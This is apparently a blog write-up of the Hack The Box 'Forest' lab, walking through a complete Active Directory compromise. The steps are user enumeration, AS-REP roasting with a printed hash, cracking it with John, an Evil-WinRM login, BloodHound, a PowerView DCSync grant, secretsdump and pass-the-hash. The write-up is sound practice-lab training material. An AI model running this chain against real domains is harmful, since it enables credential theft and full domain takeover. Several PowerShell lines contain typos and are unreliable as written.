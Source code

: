 ```yaml
---
layout: post
title: Forest - HTB Writeup
author: Mitchell Stein
tags:
- jekyll theme
- jekyll
date: 2022-02-14
tags: [write up, hackthebox, windows]
categories: [Practice]
toc:  true
---
```


Forest is an easy Windows box with a focus on Active Directory recon rather than exploitation.

## Enumeration

First, similar to every other box, we begin with a humble nmap scan. Because this is a Windows machine, we will need to add `-Pn` to the scan.

```text
# Nmap 7.92 scan initiated as: nmap -sC -sV -p- -o allnmap -v -Pn --min-rate 1000 10.10.10.161
Nmap scan report for 10.10.10.161
Host is up (0.051s latency).
Not shown: 65514 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-02-08 04:47:23Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49703/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
```

Given we have `LDAP port 389` we can use `Enum4Linux` to enumerate this LDAP service for users.

```shell
$ enum4linux -a 10.10.10.161 2> /dev/null
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Fantastic! We have a list of users we can use against other tools to see if we can get any user hashes. We can clean up this list with a simple one liner: `cat newusers| tr -d "[]" | awk -F: {'print $2'} | awk -F" " '{print $1}' > cleanusers`

```shell
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

Perfect! Now we have a clean user list to run against other tools.

## Foothold

### Getting User Hashes

We can use this new user list with Impacket's `GetNPUsers.py` or `Impacket-GetNPUsers`. GetNPUsers exploits users without pre-authentication enabled, which would allow us to grab their account password hash.

```shell
$ impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 -usersfile cleanusers htb.local/
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
.
.
.
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:8d49b0369104b38bd97f517a8c440344$530b2549fafde7dc9328efc978068556cab78af8ec4afc3025f414a367552831ce78bf76b6454474fb89a3fa93c8a6665300c45490e886dd3d3110d2f0893cb361161aab3b82518234f3e5b12d045c1ad9aea090566f71dc0c2d2a770505950f3dc263635e4abd658b9f118962fc1b33e170f6926ce28b63669a24e23c9d7747d60292004d601f4696f8cfa0f6a7505d481dc7b3b544e7534b8bf1a6ca3ba19c9f02e6c23a6624a2af2ee7c9d3fdf03b7e5af970436aba0b42293f53d35eb36519b08d22d11bc052626928206f787675d7244185ea5f11f2658f9ca4d7e79a40853f1dea796d
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Unfortunately for Alfresco but fortunately for us, svc-alfresco does not have pre-authentication enabled. We can put this output into a new file and pass it onto a cracking tool such as `John`

### Cracking Those Hashes

`John`, or otherwise known as `John the Ripper`, is a password brute force tool ot crack hashes and reveal their passwords. We can crack the hash from svc-alfresco with the following command:

```shell
$ john alfresco_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 ASIMD 4x])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
```

### Shell

Using `Evil-WinRM` we can use the credentials to log into a Windows Remote Management shell as the svc-alfresco user.

```shell
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> echo 'im in'
> im in
```

## Bloodhound

I used `Bloodhound` to enumerate this machine and find relationships between the users and groups. To do this you must first upload SharpHound.exe to the remote machine through Evil-WinRM and collect all the information you can.

![SharpHound](https://mitchelldstein.github.io/assets/images/Forest/SharpHound.png)

To get the created json files off the machine, you can use Impacket-SmbServer and connect to it through Evil-WinRM.

Opening `Bloodhound` and importing the graphs provides the following graph

![BloodHound](https://mitchelldstein.github.io/assets/images/Forest/BloodHound.png)

WriteDacl can be exploited to give access to DCSync, Which can allow the owned user to be exploited by Impacket-SecretsDump to dump the user hashes.

## Exploitation

1. Create a new user and add them to the "Exchange Windows Permissions" group
   ![New User](https://mitchelldstein.github.io/assets/images/Forest/NewUser.png)
2. Upload Powerview.ps1, which can be found [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

   ```powershell
   *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload PowerView.ps1
   *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Import-Module PowerView.ps1
   ```

3. Perform the DCsync exploit with PowerView.ps1 (Both $SecPassword and user password must be the same)

   ```powershell
   *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-String 'Password123!' -AsPlainText -Force
   *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Managemnt.Automation.PSCredential('HTB\Craz3', $SecPAssword
   *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity Craz3 -Rights DCSync
   ```

4. Exploit DCSync with Impacket-SecretsDump using the username and password of your new created user to gather the user hashes.
   ![SecretsDump](https://mitchelldstein.github.io/assets/images/Forest/SecretsDump.png)

## Passing the hash

Using the new Administrator hash, you can perform a "Pass the Hash" attack. This uses the hash of the user to authenticate instead of a password. This will give us an administrator shell.

![PassTheHash](https://mitchelldstein.github.io/assets/images/Forest/PassTheHash.png)
